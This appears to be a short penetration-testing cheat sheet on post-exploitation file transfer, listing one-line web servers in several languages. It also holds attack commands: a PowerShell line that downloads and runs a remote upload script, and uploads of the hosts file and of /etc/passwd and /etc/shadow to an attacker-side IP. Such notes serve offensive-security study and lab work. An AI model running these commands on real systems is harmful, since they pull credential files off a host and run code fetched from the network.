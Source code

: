 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
---
```


## Python 

```shell-session
python3 -m http.server --directory /home/user/target_files 443
```

### Upload Server

For our web server, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python [HTTP.server module](https://docs.python.org/3/library/http.server.html), which includes a file upload page. Let's install it and start the webserver.

```shell-session
pip3 install uploadserver
```

```shell-session
python3 -m uploadserver
```

See [[CRT (Certificate Files)]]

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
#### PowerShell Script to Upload a File to Python Upload Server

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

#### Linux Upload Multiple Files 

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Python 2.7

```shell-session
python2.7 -m SimpleHTTPServer
```
# NPM

```
http-server
```

# PHP 

```
php -S 127.0.0.1:8000
```

# Ruby

```shell-session
ruby -run -ehttpd . -p8000
```